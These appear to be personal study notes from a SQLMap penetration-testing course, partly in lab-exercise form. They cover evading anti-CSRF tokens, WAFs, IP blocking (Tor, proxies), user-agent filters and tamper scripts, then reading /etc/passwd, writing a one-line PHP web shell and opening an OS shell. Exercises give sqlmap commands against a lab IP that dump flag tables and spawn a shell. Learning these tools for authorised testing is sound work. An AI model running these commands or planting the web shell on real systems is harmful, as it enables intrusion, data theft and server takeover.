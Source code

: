 # Bypassing web app protection:
There won't  be any protection deployment on the target side in an ideal scenario, thus not preventing automatic explotation. We can expected problems when running an automated tool of any kind such a target. Many mechanias are incorportate
in SQLMAP, which can help us.

- ANTI-CSRF token Bypass:
One of the first lines of defense against the usage of automatic tools is the incorporation of ANTI-CSRF tokens into all HTTP requests, espcially those generated as
a result of web-from filling.
In most basic terms, each HTTP request in such a scenario should have a valid token value avaliable only if the user actually visisted an used the page.
While the original idea was the prevention of scenario with malicious links, where just opening these links would have undesired consequences for unaware logged-in users.
This security ft alos inavertenly hardened the app against the automation.

SQLMAP has options that can help in bypassing ANTI-CSRF protection, the most important option is [--csrf-token]. By specifying the token parameter name , wll automaticallyu attempt to parse
the target response content and search for fresh token values so it can use them in the next request.

Additionally, even in a case where the user does not explicity specify the tokens name via --csrf-token. If one of the provided parameter contains any of the common infixes, the user will be prompted whether to
update it in futher request:
` sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"`

- Unique Value Bypass:
In some cases, the web app may not only required unique values to be provided inside prodefined parameters. Such a mechanim is similar to the anti-CSRF tech describeed above, expect that there is no need to parse the web page content.
By simply ensuring that each request has a unique value for a predefined parameter, the web can ez prevent CSRF attempts while at the same time averting some of the automation tools. The option [--randomize] should be used, pointing to the
parameter name contaning a value which should be randomized before begin sent:
`sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI`

- Calculated Parameter Bypass:
Another similar mechanism is where app expects a proper parameter value to be calculated based on some other perameter values. One parameter value has to contain the message digest[h=MD5(id)] of another one.
To bypass this, the option[--eval] should be used, where a valid Python code is begin evaluated just before the request es begin sent to the target:
`sqlmap -u http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI`

- IP Address COncealing:
In ca we want to conceal our IP addr, or if a certain web appp has protection mechanismthat blacklist our current IP addr, we can try to use a proxy or the anonymity network TOR. A proxy can be set with the option [--proxy] where we should add a working
proxy.
If we have a list of proxies, we can provide them to SQLmap with the option --proxy-file. Sqlmap will go sequentially throught the list, and in case of any problems, it will skip form current to the next form the list.
The other option is TOR network use to provide an ez to use anonymitzation, where our ip can apper anywhere form a large list of tor exit nodes.
When properly installed on the local machine, there should be a SOCKS4 proxy service at the local port 9050 or 9150. Using switch [--tor], SQLmap will automatically try to find the local port and use it appropriately.

If we wantes to be sure that Tor is properly begin used, to prevent unwanted behavior, we could use the switch  --check-tor.

- WAF Bypass:
We run sqlmap, as part of the initial test, SQLMAP sends a predefined malicius looking payload usina a non-existent parameter name [?pfov=] to test the existence of a WAF.
There will be a substancial change in the reponse compared to the original case of any protection between the user and the target. If one of the most popular WAF solutions [Mod security], there should be a [406 - Not Acceptable] response after such a request.
In case of the positive detection, to identify the actual protection mechanism, SQLmap uses third-party library [identYwaf](https://github.com/stamparm/identYwaf), continuning the signatures of 80 different WAF solutions.
If we wanted to skip the heuristical altogether we can use [--skip-waf].

- User-agent Blacklisting Bypass:
In case of immediate problems while running sqlmap, one of the first things we should think if the potencial backlisting of the def user-agent by SQLmap.
This is trivial to bypass with the switch [--random-agent], which changes the default user-agent with a randomly chosen value form a large pool of values used by browsers.

> [!NOTE]
> IF some form of protection is detected during the run, we can expect problems with the target, even ther security mechanims. The main reasin is the continuos development and new improvements in such protection, leaving smaller and smaller space for attacks.

- Tamper scripts:
One of the most popular mechanims implemented in SQlmap for bypassing WAF/IPS solution is the so-called "tamper" script. Tamper scripts are a special kind of python script written for modifying requests just before sent to the target, in most cases
to bypass some protection.
The most popullar script [between](https://github.com/sqlmapproject/sqlmap/blob/master/tamper/between.py) is replacing all occurrences of greater then operator > with NOt BETWEEN 0 AND #, and the equals operator = with BETWEEN # AND #.
Tamper script can be chained, one afther other, within the --tamper option [--tamper=between, randomcase] where they are run based on their predefined priority. A prioity is predefined to prevent any unwanted behavior as some scripts modify payloads by modify payloads by
modifying their SQL syntax [ifnull2ifisnull.py](https://github.com/sqlmapproject/sqlmap/blob/master/tamper/ifnull2ifisnull.py).
The most tamper ![script](../Img/tam.png)
For get the list of all tampers use [--list-tampers].

- Miscellauneous Bypasses:
The first one is the chinked trasfer encoding, turned on using the switch [--chunked].
To other bypass mechinsm is the HTTP parameter pollution(HPP) where payloads are split in similar way as in case of chunked between different  same parameter name value.
[?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...].


Exercise:
Case 8 - anti-CSRF: sqlmap -u  --data="" --csrf-token="csrf-token"
We can use the commnad --csrf-token o un the c.txt post the token on POST request.
❯ sqlmap -r /home/../../../../c.txt --csrf-token=t0ken -T flag8 --dump --risk=3 --level=5 --batch
Case 9:
Random uid
sqlmap -r /home/../../../../case4.txt -T flag9 --level=5 --risk=3 --batch --randomize=uid --dump

Case 10
sqlmap -r /home/../../../../case4.txt  -T flag10 --dump --batch --level=5 --risk=3

Case 11:
sqlmap -r case4.txt -T flag11 --dump --risk=3 --level=5 --batch --tamper=greatest,least --threads=10
For choose the tamper script we must see the error page and see if are block
id=1'    → ¿da error 403?
id=1--   → ¿da error?
id=1+OR+1=1 → ¿funciona?


# OS Explotation:
- FIle Read/Write:
This first part of OS explotation through an SQL injection vulnerability is reading data on the hosting server. Reading data is much more common than writing data, which is strictly privileged in modern DBMSes, as it can lead to system explotation.
The DB user myst have the privileged to LOAD DATA and INSERT, to be able to load content os a file to a table and the reading that table.

`LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;`
While we do not necessarily need to have database admin privilege to read data, this is becoming more common ion modern DBMSEs. The same applies to other common db. Still if we do have DBA privilege, then it's more probable athat we have a file-read privilege.
Checking the DBA privilege with sqlma using the flag [--is-dba]
`sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`
As we can see we get current user is DBA: False meaning that we do not have DBA access. If we tried to read file usin SQLmap, we would get something like:
`[17:31:43] [INFO] fetching file: '/etc/passwd'
[17:31:43] [ERROR] no data retrieved`

To test OS explotatio, lets try an exercise in whihc do have DBA privilege, as seen in the question:
`sqlmap -u "http://www.example.com/?id=1" --is-dba`
The current user is DBA: True, meaning have the privilege to read local file.

- Reading local file:
Sqlmap makes it relatively ez to read local file with the [--file-read]: `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`
Then we can see file saved to a local file:
cat ~/.sqlmap/output/www.example.com/files/_etc_passwd

- Writing Local Files:
When it comes to writing gfile to the hosting server, it becomes much more restricted in modern DMBSes, since we can utilize this to write a WebShell on the remote server, and hence get code execition and takes over the server.
This is why modern DBMSes disable file-write by def and need certain privileges for DBA to be able to write files. The [--secure-file-priv] configuration must be manually disable to allows writting data into local file using INFO OUTLINE Sql query,
in addition to any local access needed on the host server, like the privilege to write in the direcory we need.
May web app require the ability for DBMSes to write data into file, so it's worth testing whether we can write files to the remote server.
We can use th [--file-write and --file-dest] options. ` echo '<?php system($_GET["cmd"]); ?>' > shell.php`
Set in the web server: `sqlmap -u ... --file-write "shell.php" --file-dest "/var/html/shell.php"` then we can execute the code with curl: `curl http:../shell.php?cmd=ls+-la`

- OS Command Execution:
Sqlmap utilize various techniques to get a remote shell, SQl queries directly execute OS command, like [xp_cmdshell]. To get the shell use the flag [--os-shell].
We see that defaulted to UNION techniques to get and OS shell, eventually failed to give us any outpuet No output. Then lest try other technique like Error-Based SQL injection wich flag is [--technique=E]:
`sqlmap -u ... --os-shell --technique=E`
> [!NOTE]
> SQLmap firt asked fot the type of languahge used on this remote serverm wich er know is PHP, Then it's asked us fo the server web root dir, and we ask SQLmap to automatically find it common location. Would have been automatically chossem we add --batch.

Exercise:
1.  Try to use SQLMap to read the file "/var/www/html/flag.txt".
sqlmap -u 'http://83.136.251.68:34806/?id=1' --file-write "shell.php" --file-dest "/var/www/html/shell.php"

2.  Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.
sqlmap -u 'http://83.136.251.68:34806/?id=1' --os-shell --batch
cat ../../../flag.txt
